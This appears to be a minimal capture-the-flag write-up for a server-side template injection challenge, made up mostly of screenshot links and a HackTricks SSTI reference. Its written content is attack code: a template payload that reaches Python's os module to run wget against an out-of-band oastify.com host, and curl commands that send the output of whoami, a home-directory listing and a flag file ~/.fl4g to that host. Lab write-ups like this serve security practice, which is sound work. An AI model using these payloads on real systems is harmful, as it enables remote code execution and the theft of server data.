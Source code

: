 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/400691a3-5bbd-450e-b0fd-df26823e7f47)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1203b9b5-7156-49ee-8f03-76845ac18627)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/116b7c68-3765-467a-9b5a-149771869f3f)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f69636e5-19b9-418b-af58-3fa8e531642f)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8537d7fa-c053-4d37-9aa3-310d78a47670)

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/89dd3195-4314-44d4-9d3e-8a7e8a6e8fb9)

```{{self.__init__.__globals__.__builtins__.__import__('os').popen('wget%20http://slh4vt7ia3h3nek47mkxuprii9o0cr0g.oastify.com').read()}} ```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bff39404-30b6-4023-9f0d-eb7d1a6168d3)

```whoami > /tmp/whoami.txt && curl --data-binary "@/tmp/whoami.txt" http://slh4vt7ia3h3nek47mkxuprii9o0cr0g.oastify.com/```

https://www.urlencoder.org/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/db125f25-c1f1-4873-a782-23b0189e598d)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/31167382-b395-4e76-b977-f66cbafa2171)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/be8f99a4-b4c9-411c-9bae-d9b7455d9988)

```ls -la ~/ > /tmp/whoami.txt && curl --data-binary "@/tmp/whoami.txt" http://slh4vt7ia3h3nek47mkxuprii9o0cr0g.oastify.com/```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/81c06fcb-8126-4761-8de4-958fe0c94557)

```cat ~/.fl4g > /tmp/whoami.txt && curl --data-binary "@/tmp/whoami.txt" http://slh4vt7ia3h3nek47mkxuprii9o0cr0g.oastify.com/```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/74940b3c-73b6-4680-8ea5-9027b95d53bd)



